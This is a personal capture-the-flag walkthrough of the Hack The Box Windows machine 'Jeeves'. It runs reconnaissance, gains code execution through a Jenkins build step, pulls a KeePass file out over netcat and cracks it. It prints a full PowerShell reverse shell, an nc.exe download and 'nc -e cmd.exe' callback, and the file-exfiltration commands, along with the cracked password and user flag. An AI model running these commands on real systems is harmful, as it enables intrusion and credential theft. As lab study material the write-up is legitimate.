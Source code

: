 #medium 

## 0. **Lab infos**

**Difficulty :** Medium
**Name :** Jeeves
**IP** : 10.129.228.112
**Objectives :** Get user and root flags
**OS :** #Windows

##### **Conclusion**
**Time :** 
	**Start :** 22.04.2025 16:31
	**Break at/to :** 22.04.2025 19:02 | 23.04.2025 17:00
	**Finish :** 
**Satisfaction :**  
### 1. **Reconnaissance

We start with an #nmap scan

```BASH
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```

And we make a #gobuster scan on the port 50000 because it's the only we can see without the -p-

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-0k04etkbc3]─[~]
└──╼ [★]$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.228.112:50000
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.228.112:50000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.129.228.112:50000/askjeeves/]
Progress: 108476 / 220561 (49.18%)
```

![[Pasted image 20250422164215.png]]


## 2. **Weaponization

## 3. **Delivery

## 4. **Exploitation

We can create a new jobs and in the build > Add Build step select Execute Windows batch command.

And we can enter our command. I wrote whoami.
Adn after build the jobs we can click on Conole OutPut and see the result of our command.

![[Pasted image 20250422165715.png]]

So with this reverse shell we can have an #RCE 

```POWERSHELL
powershell -nop -c "& { $client = New-Object Net.Sockets.TCPClient('10.10.14.117',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}}"
```

The server is extremely slow but it's okkey

![[Pasted image 20250422172207.png]]

After 1h30 without extracting the CEH.kdbx file I found that I have to make some changes.

First

```BASH
nc -nvlp 1234
```

After

Download nc.exe on my machine and place me in the directory and start a http python server.

End

```POWERSEHLL
powershell wget "http://10.10.14.117:8000/nc.exe" -outfile "nc.exe"
nc.exe -e cmd.exe 10.10.14.117 1234
```

And it's good.


For extracting the file :

Attacker :
```BASH
nc -l -p 12345 > file.kdbx
```

Victim :
```POWERSHELL
nc.exe 10.10.14.117 12345 < C:\Users\kohsuke\Documents\CEH.kdbx
```

And now we have the .kdbx file.

Now we want to crack the file so we start with 

```BASH
keepass2john file.kdbx > unfile.hash
```

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-yfwujbxq4p]─[~]
└──╼ [★]$ john --wordlist=/home/bobinette/Desktop/rockyou.txt unfile.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (file)     
1g 0:00:00:11 DONE (2025-04-23 10:24) 0.08403g/s 4619p/s 4619c/s 4619C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

So the password is moonshine1

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

So for the first flag it's in kohsuke on his desktop :

```POWERSHELL
> type kohsuke\Desktop\user.txt
e3232272596fb47950d59c4cf1e7066a
```